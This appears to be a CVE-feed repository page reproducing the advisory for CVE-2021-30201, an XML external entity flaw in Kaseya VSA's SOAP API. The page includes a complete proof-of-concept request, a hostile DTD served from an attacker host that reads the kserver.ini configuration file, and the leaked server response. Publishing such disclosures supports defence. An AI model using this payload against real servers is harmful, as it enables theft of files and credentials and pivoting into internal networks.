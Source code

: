 # CVE-2021-30201

- Published: 2021-07-09T14:15:00

- Modified: 2022-04-29T18:14:00

The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker. Detailed description Given the following request: ``` POST /vsaWS/KaseyaWS.asmx HTTP/1.1 Content-Type: text/xml;charset=UTF-8 Host: 192.168.1.194:18081 Content-Length: 406 <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:kas="KaseyaWS"> <soapenv:Header/> <soapenv:Body> <kas:PrimitiveResetPassword> <!--type: string--> <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM "http://192.168.1.170:8080/oob.dtd"><data>&send;</data>]]> </kas:XmlRequest> </kas:PrimitiveResetPassword> </soapenv:Body> </soapenv:Envelope> ``` And the following XML file hosted at http://192.168.1.170/oob.dtd: ``` <!ENTITY % file SYSTEM "file://c:\\kaseya\\kserver\\kserver.ini"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error; ``` The server will fetch this XML file and process it, it will read the file c:\\kaseya\\kserver\\kserver.ini and returns the content in the server response like below. Response: ``` HTTP/1.1 500 Internal Server Error Cache-Control: private Content-Type: text/xml; charset=utf-8 Date: Fri, 02 Apr 2021 10:07:38 GMT Strict-Transport-Security: max-age=63072000; includeSubDomains Connection: close Content-Length: 2677 <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\r\n\r\nSystem.Xml.XmlException: Fragment identifier '######################################################################## # This is the configuration file for the KServer. # Place it in the same directory as the KServer executable # A blank line or new valid section header [] terminates each section. # Comment lines start with ; or # ######################################################################## <snip> ``` Security issues discovered --- * The API insecurely resolves external XML entities * The API has an overly verbose error response Impact --- Using this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.

### CVSS Score: **5**

| authentication | complexity | vector |
| --- | --- | --- |
| NONE | LOW | NETWORK |

| confidentiality | integrity | availability |
| --- | --- | --- |
| PARTIAL | NONE | NONE |

## References

* https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/

* https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021

* https://csirt.divd.nl/CVE-2021-30201

* https://csirt.divd.nl/DIVD-2021-00011

<details>
<summary>About this repository</summary> 

  This repository is part of the project [Live Hack CVE](https://github.com/Live-Hack-CVE). Main website can be found [www.live-hack.org](https://www.live-hack.org) 
  
  Made by [Sn0wAlice](https://github.com/Sn0wAlice) for the people that care about security and need to have a feed of the latest CVEs. Hope you enjoy it, don't forget to star the repo and follow me on [Twitter](https://twitter.com/Sn0wAlice) and [Github](https://github.com/Sn0wAlice). And that is my [personnal website](https://www.alice-snow.me/)

  - [Home Page](https://github.com/Live-Hack-CVE)
  - [Framework](https://github.com/Live-Hack-CVE/cve-framework)
  - [CVE database](https://github.com/Live-Hack-CVE/full_database)
  - [Changelog](https://github.com/Live-Hack-CVE/Changelog)
</details>

## Brut File

* [CVE-2021-30201.json](https://raw.githubusercontent.com/Live-Hack-CVE/full_database/main/cves/2021/CVE-2021-30201.json)

